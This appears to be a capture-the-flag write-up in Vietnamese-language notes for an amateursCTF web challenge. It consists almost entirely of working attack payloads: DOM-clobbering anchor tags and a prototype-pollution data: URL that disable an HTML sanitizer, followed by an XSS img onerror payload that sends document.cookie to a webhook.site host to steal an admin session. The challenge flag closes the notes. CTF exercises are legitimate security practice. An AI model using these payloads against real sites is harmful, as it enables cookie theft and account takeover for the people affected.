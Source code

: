 title:
- Y tuong, can lay cookie cua admin
- Lam cach nao de sanitize = 0
- su dung dom clobbering len debug.session, tan dung assign object tan cong prototype, cai de len gia tri serialize



<a id=debug><a id=debug name=extension href="https://czzgiy7w.requestrepo.com">
<a id=debug><a id=debug name=extension href="https://0794-113-178-45-87.ngrok-free.app/a">
<a id=debug><a id=debug name=extension href="data:;,{%22__proto__%22:{%22sanitize%22:false}}">
https://webhook.site/35fdb7bf-d66f-425f-9ea4-cd4b527a5f51

C1: dung polyglot data:;,payload in href
<a id=debug><a id=debug name=extension href="data:;,{%22__proto__%22:{%22sanitize%22:false}}">
https://webhook.site/35fdb7bf-d66f-425f-9ea4-cd4b527a5f51

C2: gui request den url va url tra ve payload, phai su dung server cho phep CORS, SU DUNG requestrepo
- Gan body cua server la payload

<a id=debug><a id=debug name=extension href="https://czzgiy7w.requestrepo.com">




body:

<img src=1 onerror="fetch('https://webhook.site/9170beae-82e8-408d-bc36-b111a41a22c2/?'+document.cookie)">





flag: amateursCTF{s@nit1zer_ap1_pr3tty_go0d_but_not_p3rf3ct}